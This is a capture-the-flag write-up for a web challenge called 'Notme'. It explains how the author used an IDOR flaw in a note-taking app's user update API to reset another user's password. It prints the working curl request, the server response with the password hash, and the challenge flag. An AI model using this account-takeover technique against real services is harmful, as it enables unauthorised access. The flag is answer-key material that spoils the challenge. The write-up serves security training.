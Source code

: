 # [HV22.10] Notme

<table>
  <tr>
    <th>Categories</th>
    <td>Web security</td>
  </tr>
  <tr>
    <th>Level</th>
    <td>medium</td>
  </tr>
  <tr>
    <th>Author</th>
    <td>HaCk0</td>
  </tr>
</table>

## Description
Santa brings you another free gift! We are happy to announce a free note taking webapp for everybody. No account name restriction, no filtering, no restrictions and the most important thing: no bugs! Because it cannot be hacked, Santa decided to name it Notme = Not me you can hack!

Or can you?

## Solution
Fast-forward: It turned out, the way I solved this challenge was not the intended one. I only found out about this when reading the flag.

I approached the challenge as other "web security" challenges: Looking at API traffic and trying out variations of the requests or simply other user IDs.
While doing so, I realised a few things:

- my user seems to have a `user` role.
- passwords were simply SHA-256 hashes.
- there must have been an additional user somewhere (Santa, is it you?)

I discovered, that the user update request did not check the user ID, so I could update the password for any user on the system.
A classical (unintended) Insecure Direct Object Reference (IDOR) vulnerability.

Iterating through the user IDs (using Burp Suite), I was able to update the password of user `1337`, which happened to be Santa.
```
$ curl 'https://4503b1b0-2da2-49a6-a974-d3f5df08a0a4.idocker.vuln.land/api/user/1337'   -H 'content-type: application/json'   -H 'cookie: connect.sid=s%3A36fy1tBYkOnN9bmgg66SaGJM05jlPWJL.mERSYxoLsvQY0HKKRfK%2B7HcTCIFLdA2GLxDrvE6ttSA'   --data-raw '{"password":"test"}'   -i
HTTP/2 200 
content-type: application/json; charset=utf-8
date: Fri, 09 Dec 2022 23:37:54 GMT
etag: W/"c8-XrArzR2AlPhw3vjMP3KIXgaJz2Q"
x-powered-by: Express
content-length: 200

{"id":1337,"role":"user","username":"Santa","password":"9f86d081884c7d659a2feaa0c55ad015a3bf4f1b2b0b822cd15d6c15b0f00a08","createdAt":"2022-12-09T23:00:55.271Z","updatedAt":"2022-12-09T23:35:31.831Z"}
```

After logging in as santa, there was a note containing the flag.

## Flag
```
HV22{Sql1_is_An_0Ld_Cr4Ft}
```
